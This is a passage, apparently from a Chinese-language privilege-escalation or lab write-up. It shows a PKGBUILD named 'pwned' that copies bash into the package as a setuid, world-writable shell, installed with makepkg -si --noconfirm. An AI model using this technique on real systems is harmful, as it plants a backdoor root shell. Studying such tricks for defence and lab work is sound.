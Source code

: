 ![image-20241127004548511.png](BlockBlock/image-20241127004548511.png)

所以使用的时候需要调用环境变量 $pkgdir

```Plain Text
cat << EOF > PKGBUILD
pkgname=pwned
pkgver=1.2
pkgrel=3
arch=(x86_64)
package() {
	cp /bin/bash \$pkgdir/shell
	chmod 4777 \$pkgdir/shell
}
EOF
makepkg -si --noconfirm
```
